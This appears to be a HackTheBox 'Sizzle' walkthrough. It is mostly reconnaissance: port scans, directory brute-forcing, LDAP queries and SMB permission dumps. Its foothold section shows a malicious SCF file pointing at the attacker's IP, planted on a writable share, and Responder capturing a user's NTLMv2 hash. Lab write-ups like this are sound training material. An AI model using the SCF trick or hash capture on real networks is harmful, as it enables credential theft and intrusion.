


# Sizzle
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.103 --min-rate 5000                                                      
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:19 BST
Nmap scan report for 10.10.10.103 (10.10.10.103)
Host is up (0.11s latency).
Not shown: 65506 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
53/tcp    open  domain
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
5986/tcp  open  wsmans
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49677/tcp open  unknown
49688/tcp open  unknown
49689/tcp open  unknown
49691/tcp open  unknown
49694/tcp open  unknown
49699/tcp open  unknown
49708/tcp open  unknown
49714/tcp open  unknown

```
```
└─$ nmap -Pn -p21,53,80,135,139,443,445,464,593,636,3268,3269,5985,5986,9389,47001 -sC -sV 10.10.10.103 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 03:19 BST
Nmap scan report for 10.10.10.103 (10.10.10.103)
Host is up (0.10s latency).

PORT      STATE    SERVICE          VERSION
21/tcp    open     ftp              Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open     domain           Simple DNS Plus
80/tcp    open     http             Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open     msrpc            Microsoft Windows RPC
139/tcp   open     netbios-ssn      Microsoft Windows netbios-ssn
443/tcp   open     ssl/http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2023-10-05T19:21:25+00:00; -7h00m01s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| tls-alpn: 
|   h2
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   filtered http-rpc-epmap
636/tcp   filtered ldapssl
3268/tcp  filtered globalcatLDAP
3269/tcp  filtered globalcatLDAPssl
5985/tcp  filtered wsman
5986/tcp  open     ssl/http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-10-05T19:21:25+00:00; -7h00m01s from scanner time.
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
| tls-alpn: 
|   h2
|_  http/1.1
9389/tcp  open     mc-nmf           .NET Message Framing
47001/tcp filtered winrm
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -7h00m00s, deviation: 0s, median: -7h00m01s
| smb2-time: 
|   date: 2023-10-05T19:20:48
|_  start_date: 2023-10-05T19:16:02
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.35 seconds

```

- `ftp`
```
└─$ ftp anonymous@10.10.10.103
Connected to 10.10.10.103.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||56265|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
```

- Web Server


- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.103/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x asp,aspx,txt,html -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.103/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 60]
/images               (Status: 301) [Size: 150] [--> http://10.10.10.103/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.10.103/Images/]
/Index.html           (Status: 200) [Size: 60]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.10.103/IMAGES/]
/INDEX.html           (Status: 200) [Size: 60]
/*checkout*.aspx      (Status: 400) [Size: 3420]
/*checkout*           (Status: 400) [Size: 3420]

```

- Lesson learned, we also have to `gobuster` with `IIS` focused list
```
└─$ gobuster dir -u http://10.10.10.103/ -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -x asp,aspx,txt,html -t 50 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.103/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              asp,aspx,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client/       (Status: 403) [Size: 1233]
/certenroll/          (Status: 403) [Size: 1233]
/certsrv/             (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.aspx (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.txt (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.html (Status: 401) [Size: 1293]
/certsrv/mscep_admin  (Status: 401) [Size: 1293]
/certsrv/.html        (Status: 401) [Size: 1293]
/certsrv/.txt         (Status: 401) [Size: 1293]
/certsrv/.asp         (Status: 401) [Size: 1293]
/certsrv/.aspx        (Status: 401) [Size: 1293]
/certsrv/mscep_admin.html (Status: 401) [Size: 1293]
/certsrv/mscep_admin.txt (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll.asp (Status: 401) [Size: 1293]
/certsrv/mscep_admin.asp (Status: 401) [Size: 1293]
/certsrv/mscep_admin.aspx (Status: 401) [Size: 1293]
/images/              (Status: 403) [Size: 1233]

```

- `ldapsearch`
```
└─$ ldapsearch -H ldap://10.10.10.103 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: DC=HTB,DC=LOCAL
namingContexts: CN=Configuration,DC=HTB,DC=LOCAL
namingContexts: CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
namingContexts: DC=DomainDnsZones,DC=HTB,DC=LOCAL
namingContexts: DC=ForestDnsZones,DC=HTB,DC=LOCAL

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```
```
└─$ ldapsearch -H ldap://10.10.10.103 -x -b "DC=HTB,DC=LOCAL"                      
# extended LDIF
#
# LDAPv3
# base <DC=HTB,DC=LOCAL> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A4C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v3839

# numResponses: 1

```

- `smb`
```
└─$ smbclient -N -L //10.10.10.103                                                              

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        CertEnroll      Disk      Active Directory Certificate Services share
        Department Shares Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Operations      Disk      
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.103 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
- I can only access `Department Shares`
```
└─$ smbclient "//10.10.10.103/Department Shares"
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jul  3 16:22:32 2018
  ..                                  D        0  Tue Jul  3 16:22:32 2018
  Accounting                          D        0  Mon Jul  2 20:21:43 2018
  Audit                               D        0  Mon Jul  2 20:14:28 2018
  Banking                             D        0  Tue Jul  3 16:22:39 2018
  CEO_protected                       D        0  Mon Jul  2 20:15:01 2018
  Devops                              D        0  Mon Jul  2 20:19:33 2018
  Finance                             D        0  Mon Jul  2 20:11:57 2018
  HR                                  D        0  Mon Jul  2 20:16:11 2018
  Infosec                             D        0  Mon Jul  2 20:14:24 2018
  Infrastructure                      D        0  Mon Jul  2 20:13:59 2018
  IT                                  D        0  Mon Jul  2 20:12:04 2018
  Legal                               D        0  Mon Jul  2 20:12:09 2018
  M&A                                 D        0  Mon Jul  2 20:15:25 2018
  Marketing                           D        0  Mon Jul  2 20:14:43 2018
  R&D                                 D        0  Mon Jul  2 20:11:47 2018
  Sales                               D        0  Mon Jul  2 20:14:37 2018
  Security                            D        0  Mon Jul  2 20:21:47 2018
  Tax                                 D        0  Mon Jul  2 20:16:54 2018
  Users                               D        0  Tue Jul 10 22:39:32 2018
  ZZ_ARCHIVE                          D        0  Mon Jul  2 20:32:58 2018

                7779839 blocks of size 4096. 3559060 blocks available
```

## Foothold
- I'll mount the share and download the content
```
└─$ sudo mount -t cifs "//10.10.10.103/Department Shares" /mnt/smb 
[sudo] password for kali: 
Password for root@//10.10.10.103/Department Shares:
```
```
└─$ ls /mnt/smb                          
 Accounting   Audit   Banking   CEO_protected   Devops   Finance   HR   Infosec   Infrastructure   IT   Legal  'M&A'   Marketing  'R&D'   Sales   Security   Tax   Users   ZZ_ARCHIVE
```
- Nothing interesting inside
```
└─$ tree .     
.
├── Accounting
├── Audit
├── Banking
│   └── Offshore
│       ├── Clients
│       ├── Data
│       ├── Dev
│       ├── Plans
│       └── Sites
├── CEO_protected
├── Devops
├── Finance
├── HR
│   ├── Benefits
│   ├── Corporate Events
│   ├── New Hire Documents
│   ├── Payroll
│   └── Policies
├── Infosec
├── Infrastructure
├── IT
├── Legal
├── M&A
├── Marketing
├── R&D
├── Sales
├── Security
├── Tax
│   ├── 2010
│   ├── 2011
│   ├── 2012
│   ├── 2013
│   ├── 2014
│   ├── 2015
│   ├── 2016
│   ├── 2017
│   └── 2018
├── Users
│   ├── amanda
│   ├── amanda_adm
│   ├── bill
│   ├── bob
│   ├── chris
│   ├── henry
│   ├── joe
│   ├── jose
│   ├── lkys37en
│   ├── morgan
│   ├── mrb3n
│   └── Public
└── ZZ_ARCHIVE
    ├── AddComplete.pptx
    ├── AddMerge.ram
    ├── ConfirmUnprotect.doc
    ├── ConvertFromInvoke.mov
    ├── ConvertJoin.docx
    ├── CopyPublish.ogg
    ├── DebugMove.mpg
    ├── DebugSelect.mpg
    ├── DebugUse.pptx
    ├── DisconnectApprove.ogg
    ├── DisconnectDebug.mpeg2
    ├── EditCompress.xls
    ├── EditMount.doc
    ├── EditSuspend.mp3
    ├── EnableAdd.pptx
    ├── EnablePing.mov
    ├── EnableSend.ppt
    ├── EnterMerge.mpeg
    ├── ExitEnter.mpg
    ├── ExportEdit.ogg
    ├── GetOptimize.pdf
    ├── GroupSend.rm
    ├── HideExpand.rm
    ├── InstallWait.pptx
    ├── JoinEnable.ram
    ├── LimitInstall.doc
    ├── LimitStep.ppt
    ├── MergeBlock.mp3
    ├── MountClear.mpeg2
    ├── MoveUninstall.docx
    ├── NewInitialize.doc
    ├── OutConnect.mpeg2
    ├── PingGet.dot
    ├── ReceiveInvoke.mpeg2
    ├── RemoveEnter.mpeg3
    ├── RemoveRestart.mpeg
    ├── RequestJoin.mpeg2
    ├── RequestOpen.ogg
    ├── ResetCompare.avi
    ├── ResetUninstall.mpeg
    ├── ResumeCompare.doc
    ├── SelectPop.ogg
    ├── SuspendWatch.mp4
    ├── SwitchConvertFrom.mpg
    ├── UndoPing.rm
    ├── UninstallExpand.mp3
    ├── UnpublishSplit.ppt
    ├── UnregisterPing.pptx
    ├── UpdateRead.mpeg
    ├── WaitRevoke.pptx
    └── WriteUninstall.mp3

52 directories, 51 files

```

- We can check smb permissions
```
Accounting
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Audit
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Banking
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
CEO_protected
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Devops
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Finance
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
HR
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Infosec
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Infrastructure
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
IT
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Legal
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
M&A
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Marketing
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
R&D
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Sales
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Security
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Tax
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Users
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/0x0/READ
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
ZZ_ARCHIVE
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL

```
```
└─$ for i in $(ls); do (echo $i; smbcacls -N '//10.10.10.103/Department Shares' Users/$i); done 
amanda
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
amanda_adm
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
bill
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
bob
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
chris
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
henry
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
joe
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
jose
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
lkys37en
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
morgan
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
mrb3n
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
Public
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:HTB\Domain Users
ACL:Everyone:ALLOWED/OI|CI/FULL
ACL:S-1-5-21-2379389067-1826974543-3574127760-1000:ALLOWED/OI|CI|I/FULL
ACL:BUILTIN\Administrators:ALLOWED/OI|CI|I/FULL
ACL:Everyone:ALLOWED/OI|CI|I/READ
ACL:NT AUTHORITY\SYSTEM:ALLOWED/OI|CI|I/FULL
```

- We have a `full` permissions on `Public`
  - We can try placing `scf` file
```
[Shell]
Command=2
IconFile=\\10.10.16.9\anything
```
```
└─$ smbclient "//10.10.10.103/Department Shares"
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> cd Users
smb: \Users\> cd Public\
smb: \Users\Public\> put desktop.scf
putting file desktop.scf as \Users\Public\desktop.scf (0.0 kb/s) (average 0.0 kb/s)
smb: \Users\Public\> ls
  .                                   D        0  Fri Oct  6 18:38:02 2023
  ..                                  D        0  Fri Oct  6 18:38:02 2023
  desktop.scf                         A       50  Fri Oct  6 18:38:02 2023

                7779839 blocks of size 4096. 3558488 blocks available
```

- After few minutes `responder` receives a hash
```
└─$ sudo responder -I tun0    
[sudo] password for kali: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.3.0
...
[SMB] NTLMv2-SSP Client   : 10.10.10.103
[SMB] NTLMv2-SSP Username : HTB\amanda
